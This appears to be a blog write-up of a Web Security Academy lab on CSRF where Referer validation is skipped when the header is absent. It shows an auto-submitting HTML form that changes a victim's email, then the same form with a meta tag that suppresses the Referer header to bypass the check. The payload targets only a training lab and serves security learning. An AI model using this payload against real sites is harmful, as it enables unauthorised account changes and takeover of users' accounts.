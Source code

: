 ```yaml
---
layout: post
title:  "CSRF where Referer validation depends on header being present"
date:   2024-10-03 09:39:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution 

Exactly like the rest other labs, we have to update the email, Intercept the request and Generate the POC using engagement tools.. here is how the POC looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aaa00780346c2cf861f4a6300f800c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="nithissh&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Then Copied the payload into Exploit server, `Stored -> View Exploit` that resulted in a referrer header error 

![]({{ site.baseurl }}/assets/images/csrf-24.png)

In order to bypass the check we can add the following the piece of code which will suppress the `Referrer` header kind of like telling the application that I don't need it  `<meta name="referrer" content="never">` into our POC 

```html
<html>
    <meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aaa00780346c2cf861f4a6300f800c7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="nithissh&#46;s&#64;outlook&#46;in" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Redo the method again in terms of exploit server after adding this code like `Store -> Deliver the exploit to Victim` and then lab will be solved 

![]({{ site.baseurl }}/assets/images/csrf-25.png)